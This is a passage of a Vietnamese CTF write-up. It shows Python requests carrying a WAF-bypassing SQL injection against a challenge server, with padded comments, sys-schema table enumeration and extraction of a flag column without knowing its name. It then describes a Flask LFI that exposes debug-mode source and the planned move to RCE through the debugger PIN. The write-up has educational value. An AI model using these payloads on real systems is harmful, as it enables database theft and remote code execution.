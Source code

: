 ```python
res = requests.post('http://45.77.240.178:8002/index.php', data={
    'id': '5 union/*' + 'a'*1000000 + '*/select 1,group_concat(table_name),3 from sys.x$ps_schema_table_statistics_io where table_schema=database()'
})
```

![](https://i.imgur.com/xKdXXBS.jpg)

Table name: `Th1z_Fack1n_Fl4444g_Tabl3`

### Get flag without knowing column name
Cách này đã được anh @tsug0d mô tả cực kì chi tiết và dễ hiểu trong [blog](https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/) của anh nên mình không dài dòng nữa. Get flag thôi! 

```python
res = requests.post('http://45.77.240.178:8002/index.php', data={
    'id': '5 union/*' + 'a'*1000000 + '*/select 1,b,3 from (select 1 a, 2 b union select * from Th1z_Fack1n_Fl4444g_Tabl3 limit 1,1)x'
})
```

![](https://i.imgur.com/iAgHzHz.jpg)

### Another way from the author
![](https://i.imgur.com/PVK8WBT.jpg)
🎉🎉🎉

## The Prophet
```
Wohoo, wanna hear some oracle?
```
Bài này chỉ có 1 chức năng cơ bản là đọc các file text có tên từ 1 - 5. Khi ta thử file `6.txt`, trang xuất hiện giao diện thông báo lỗi của Flask, chứng tỏ debug mode đang được enabled.
Trong giao diện báo lỗi, chúng ta có thể đọc 1 phần source code đã bị disclosed:

![](https://i.imgur.com/WvzEivs.jpg)

Ta dễ dàng thấy được lỗi Local File Inclusion (LFI) trong đoạn code xử lí đọc file này. Biến `filename` được truyền thẳng đến hàm `open()` và nội dung được đưa ra ngoài thông qua hàm `render_template()`. 

Ngay lúc này, mình nhận ra rằng việc chúng ta có lỗi LFI sẽ dẫn đến việc có thể [generate](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/) được debugger PIN code, sau đó sử dụng chức năng Interactive shell được tích hợp trong giao diện lỗi của Flask để có thể leverage lên RCE.

Sau khi làm theo bài hướng dẫn generate PIN code và đã có được PIN, giờ chỉ việc submit PIN và RCE thôi, nhưng đời không như mơ và cuộc sống không dễ thở...

![](https://i.imgur.com/lP07KrD.jpg)
